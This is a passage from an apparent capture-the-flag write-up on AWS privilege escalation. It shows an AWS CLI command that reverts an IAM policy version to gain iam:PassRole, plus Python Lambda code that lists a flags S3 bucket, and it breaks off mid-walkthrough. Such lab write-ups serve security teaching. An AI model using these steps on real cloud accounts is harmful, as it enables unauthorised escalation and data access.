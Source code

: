 ```cmd
aws iam set-default-policy-version --policy-arn arn:aws:iam::212353106417:policy/UserPolicy --version-id v1
```

This action activated **v1**, granting me the **iam:PassRole** permission that was missing in the default version (**v2**).

***

## Step‑3: Leverage Lambda Permissions

### Check for Existing Lambda Functions

Before creating a new function, I checked if any Lambda functions already existed, as my permissions included various Lambda actions:

```cmd
aws lambda list-functions
```

**Output:**

```json
{
    "Functions": []
}
```

Since no pre-existing functions were found, I proceeded to create one.

### Create and Deploy a Lambda Function

1.  **Prepare Lambda Code:**\
    I created a file named `lambda_function.py` with the following content:\


    {% code overflow="wrap" %}
    ```python
    import boto3
    import json

    def lambda_handler(event, context):
        try:
            s3 = boto3.client('s3')
            response = s3.list_objects_v2(Bucket='squ1rrel-ctf-flags')
            return {
                "statusCode": 200,
                "body": json.dumps(response, default=str)
            }
        except Exception as e:
            print("Error:", str(e))
            return {
                "statusCode": 500,
                "body": json.dumps({"error": str(e)})
            }
    ```
    {% endcode %}
